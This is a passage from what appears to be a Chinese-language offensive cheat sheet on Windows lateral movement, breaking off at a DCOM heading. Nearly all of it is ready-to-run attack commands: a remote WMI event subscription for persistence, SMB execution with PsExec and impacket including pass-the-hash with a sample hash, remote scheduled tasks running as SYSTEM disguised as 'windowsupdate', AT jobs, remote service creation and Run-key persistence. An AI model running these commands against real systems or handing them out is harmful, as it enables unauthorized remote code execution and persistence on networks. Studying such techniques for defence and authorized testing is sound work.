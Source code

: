 ```
$exePath  = 'C:\Windows\System32\notepad.exe'
$Query  = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE  TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
$WMIEventFilter  = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription"  -Arguments  @{Name=$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query}  -ErrorAction Stop -ComputerName 172.16.127.184 -Credential  ‘jumbolab.com\win7user’
$WMIEventConsumer  = Set-WmiInstance -Class CommandLineEventConsumer -Namespace  "root\subscription" -Arguments  @{Name=$consumerName;ExecutablePath=$exePath;CommandLineTemplate=$exePath}  -ComputerName 172.16.127.184 -Credential  'jumbolab.com\win7user'Set-WmiInstance  -Class __FilterToConsumerBinding -Namespace "root\subscription"  -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer}
```

### 3.smb 横向

```
利用 SMB 服务可以通过明文或 hash 传递来远程执行。

3.1 利用条件
1、445端口开放
2、知道账号密码

3.2 psexec（微软官方工具）
PsExec64.exe \\192.168.52.136 -u <username> -p <password> -s cmd

3.3 psexec（impacket 工具）
python psexec.py -hashes :36ec9d73422e1bf53b84fdb16a8e4198 ./qaxnb@192.168.52.136

3.4 smbexec
python smbexec.py ./:@192.168.52.136

```

### 4、Schtasks

```
schtasks  /create /s 1.1.1.1 /u domain\Administrator /p password /ru "SYSTEM"  /tn "windowsupdate" /sc DAILY  /tr "calc" /F schtasks  /run /s 1.1.1.1 /u domain\Administrator /p password /tn windowsupdate
```
### 5、AT

```
at  \\1.1.1.1 15:15 calc
```
### 6、SC

```
sc  \\1.1.1.1 create windowsupdate binpath= "calc"sc  \\1.1.1.1 start windowsupdate
```
### 7、REG

```
reg add  \\1.1.1.1\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v myentry /t  REG_SZ /d "calc"
```
### 8、DCOM
